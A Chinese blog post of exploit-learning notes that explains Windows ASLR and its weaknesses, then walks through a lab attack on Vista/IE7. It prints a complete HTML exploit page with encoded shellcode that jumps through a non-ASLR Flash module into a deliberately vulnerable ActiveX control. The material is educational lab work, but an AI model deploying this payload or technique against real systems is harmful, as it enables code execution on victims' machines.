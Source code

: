 ```yaml
---
title: 漏洞利用学习笔记-017-ASLR简介
description: ASLR技术的介绍和简单攻击思路
date: 2020-11-24 21:12:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 内存地址布局随机化
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-017-aslr简介/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况

![ASLR未启用情况](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功

![shellcode运行成功](https://s3.ax1x.com/2020/11/26/D0oYUH.png)

